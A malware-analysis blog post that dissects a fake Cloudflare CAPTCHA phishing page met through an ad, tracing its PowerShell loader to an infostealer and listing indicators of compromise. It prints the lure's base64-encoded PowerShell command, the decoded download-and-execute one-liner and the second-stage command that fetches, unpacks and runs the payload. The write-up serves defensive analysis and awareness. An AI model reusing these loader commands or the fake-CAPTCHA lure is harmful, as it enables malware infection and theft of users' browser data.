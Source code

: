 ```yaml
---
title: CAPTCHA This!
date: 2025-05-14
draft: false
author: Kyd1ct
description: How a failed attempt at fake CAPTCHA phishing saved the day.
---
```



In this article, we’ll break down how this failed phishing attempt occurred and what would have happened if it succeeded.


## Discovery
I kept seeing articles about the phishing technique that utilises fake CAPTCHA pages. I wanted to know if I could randomly come across one of them in the wild, so I booted up my FlareVM and started browsing. I went to various websites, including travel agencies, social media, etc. (of course, without logging anywhere or inputting credentials), without AdBlock. I had planned a trip to visit a friend, so I thought, "Why not, I could check bus prices". Lo and behold, a Google ad popped up when I attempted to open one of the websites, and it was a fake CAPTCHA phishing page, impersonating a Cloudflare page.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/fakePage.jpg)

The page was later reported, and now it seems to have restricted access, showing a "Forbidden" error when trying to access it. The main domain, however, is still up and still shows `hellow` when accessed.

Let's examine the script, though:

```powershell
PowerShell.exe -ep bypass -enc KABJAG4AdgBvAGsAZQAtAHcAZQBiAHIAZQBxAHUAZQBzAHQAIAAtAFUAUgBJACAAJwBoAHQAdABwAHMAOgAvAC8AcwBoAG8AcgB0AGUAcgAuAG0AZQAvAFgATwBXAHkAVAAnACAALQBVAHMAZQBCAGEAcwBpAGMAUABhAHIAcwBpAG4AZwApAC4AYwBvAG4AdABlAG4AdAAgAHwAaQBlAHgA -w 1powershell
```

So what can we identify from this?
- The command bypasses policy execution
- Runs a Base64 encoded command

We can only see red flags until we see `-w 1powershell`. This was one of the fake CAPTCHA phishing techniques that has become more frequent in the past year. However, that WindowStyle flag argument was invalid, resulting in an error without executing the script. The correct version would have been `-w 1`, which would have been an alternate version of `-WindowStyle Hidden`.

But what if the issue was not there and we accidentally ran the correct command?


## Analysis
### Static Analysis

Running the command with the correct WindowStyle argument still resulted in an error due to an incorrect User Agent. That's a second strike, so I decided to take a peek at what the encoded command does:

`(Invoke-webrequest -URI 'hxxps://shorter[.]me/XOWyT' -UseBasicParsing).content |iex`

The command shows us that the script opens a shortened link. Checking that link in a sandbox, I identified that it contained the following command:

`Invoke-WebRequest -Uri "hxxps://bitly[.]cx/iddD" -OutFile "$env:TEMP\ComponentStyle.zip"; Expand-Archive -Path "$env:TEMP/ComponentStyle.zip" -DestinationPath "$env:TEMP"; & "$env:TEMP\crystall\Crysta_x86.exe"`

So let's analyse it:
- It accesses another shortened URL
- Drops an archive in the TEMP directory and unzips it
- Executes the payload

I detonated the second stage payload, omitting the execution part of the script - the archive was secured, and it was time to create a snapshot.

The archive contained multiple files:
- A main executable
- Three DLL files
- a BXI and an [RC](https://learn.microsoft.com/en-us/windows/win32/menurc/about-resource-files) file.

![Fake Phishing Page.](/img/Malware/CAPTCHA_This/archiveFiles.png)

When checked in [VirusTotal](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details), we can see that vendors cannot detect the main executable. We can also see that it was first submitted in 2011, and it is also signed and verified by Sonic Solutions, with the product being `DivX Download Manager Service`. While the binary is signed, it is likely vulnerable, making it possible to add malicious capabilities to it with the DLL files and the RC/BXI files.

Examining the strings does not provide much useful information, though it shows us that the file is capable of registry and process manipulation. We can also see the signature provided by VeriSign.

### Dynamic Analysis

Detonating the malware immediately shows a new process called MSBuild.exe, which appears to be associated with Flexera Software according to PEStudio. It also runs tcpvcon.exe, which is SysInternal's TCPView tool.

![First Processes.](/img/Malware/CAPTCHA_This/firstProcesses.png)

Eventually, it also opens multiple Chrome processes, however, no visible windows or tabs were opened.

![Chrome Processes.](/img/Malware/CAPTCHA_This/chromeProcesses.png)

The malicious software creates a copy of itself within `C:\ProgramData\PatchSystemCUS\`, while the `tcpvcon.exe` file was dropped in `C:\Users\<UserName>\AppData\Roaming\PatchSystemCUS`

![Persistence.](/img/Malware/CAPTCHA_This/malwareCopies.png)

![TCPView.](/img/Malware/CAPTCHA_This/tcpView.png)

When it comes to what the malware actually does, it appears to be a classic infostealer. The malicious software attempted to look for data files related to popular browsers like Google Chrome, Brave, Opera, CentBrowser, and many other region-specific browsers like Sputnik, etc.

![Chrome Data.](/img/Malware/CAPTCHA_This/chromeData.png)

![Browser Data.](/img/Malware/CAPTCHA_This/browserData.png)

It also targeted the TCPIP registries, enumerating hostname, DNSclient, and other keys in an attempt to steal details related to the machine's connections. It also enumerated all directories within the virtual machine.

![TCP Info.](/img/Malware/CAPTCHA_This/tcpInfo.png)

![File Enumeration.](/img/Malware/CAPTCHA_This/fileEnumeration.png)

Finally, I observed that the malicious sample went through the Uninstall registry keys, presumably to enumerate installed software and identify specific data "troves" or hindrances (such as security tools).

![Installed Software.](/img/Malware/CAPTCHA_This/installedSoftware.png)

The file communicated with an external IP address at regular intervals, likely serving as a command and control (C2) server for data exfiltration by the malicious binary.

![C2 Connection.](/img/Malware/CAPTCHA_This/c2Connection.png)

![C2 Connection Part 2.](/img/Malware/CAPTCHA_This/c2Connection2.png)

###  Conclusion
In summary, phishing pages like these are far from rare—they can appear anywhere in the wild, even through ads served by reputable networks. Any unsuspecting user could run the malicious tool, risking data leaks or other serious consequences. We also can't depend on attackers making mistakes, which highlights just how essential cybersecurity awareness is for both individuals and organisations.

## IoCs  

### Hashes
- [deb5bd989c9fdd5fe7f78f00a1216eb0](https://www.virustotal.com/gui/file/2ec47cbe6d03e6bdcccc63c936d1c8310c261755ae5485295fecac4836d7e56a/details)
- [2d4fdba00b7f7b02408a8ea6c199037e](https://www.virustotal.com/gui/file/a8ba1e14249cdd9d806ef2d56bedd5fb09de920b6f78082d1af3634f4c136b90/details)
- [e43ec4f0aa69a344fcb8431e60195f0f](https://www.virustotal.com/gui/file/08f351477e71a4fa872a7b16455af9e2bd5dc38adef600a7310ce28acc94aad6/details)
- [ff254c1778aefe5af06889f1f999dee3](https://www.virustotal.com/gui/file/94bc0c01641801f258e207eca8227845f3f1c686e7394ce3864a6b2538b8eadb/details)

### IP Addresses
- [144.172.97[.]2](https://www.virustotal.com/gui/ip-address/144.172.97.2/detection)